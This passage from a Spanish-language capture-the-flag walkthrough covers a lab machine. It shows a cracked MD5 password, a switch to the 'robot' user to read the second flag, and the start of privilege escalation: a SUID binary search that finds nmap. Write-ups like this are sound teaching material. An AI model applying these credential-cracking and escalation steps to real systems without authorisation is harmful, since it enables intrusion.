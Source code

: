 ```sh
Hash	                                Type	Result
c3fcd3d76192e4007dfb496cca67e13b	md5	abcdefghijklmnopqrstuvwxyz
```

Con la contraseña obtenida, ya podemos cambiar al usuario **robot**:
```bash
su robot
```
Ingresamos la contraseña que hemos obtenido descifrando el hash anterior y ahora tenemos acceso como el usuario `robot`. Y ahora ya podemos leer el archivo `key-2-of-3.txt`.

```sh
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ pwd
pwd
/home/robot
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$
```
> Hemos alcanzado el segundo objetivo CTF!!! &rarr; 822c73956184f694993bede3eb39f959

## x

Sólo nos queda obtener la última bandera para lo que debemos obtener la **escalada de privilegios a root**.

Para escalar privilegios a root, encontramos un archivo ejecutable con permisos **SUID**. Estos permisos permiten que el archivo se ejecute con los privilegios del propietario, que en este caso es root.

1. Verificamos los permisos SUID con el siguiente comando:
   ```sh
   find / -perm -u=s -type f 2>/dev/null
   ```
   Este comando busca archivos con permisos SUID en el sistema:
	- `find /`: Busca en todo el sistema desde la raíz (/).
	- `-perm -u=s`: Busca archivos con el bit SUID activado, lo que permite que se ejecuten con los permisos del propietario (generalmente root).
	- `-type f`: Limita la búsqueda solo a archivos regulares (no directorios ni enlaces).
	- `2>/dev/null`: Redirige los mensajes de error (canal 2) a `/dev/null`, ocultando los errores de acceso a directorios restringidos.
   En resumen, este comando encuentra archivos ejecutables que permiten la escalada de privilegios mediante el bit SUID.


2. Entre los archivos listados, encontramos que **nmap** tiene permisos SUID.
   ```sh
   robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
   find / -perm -u=s -type f 2>/dev/null
   /bin/ping
   /bin/umount
   /bin/mount
   /bin/ping6
   /bin/su
   /usr/bin/passwd
   /usr/bin/newgrp
   /usr/bin/chsh
   /usr/bin/chfn
   /usr/bin/gpasswd
   /usr/bin/sudo
   /usr/local/bin/nmap
   /usr/lib/openssh/ssh-keysign
   ```
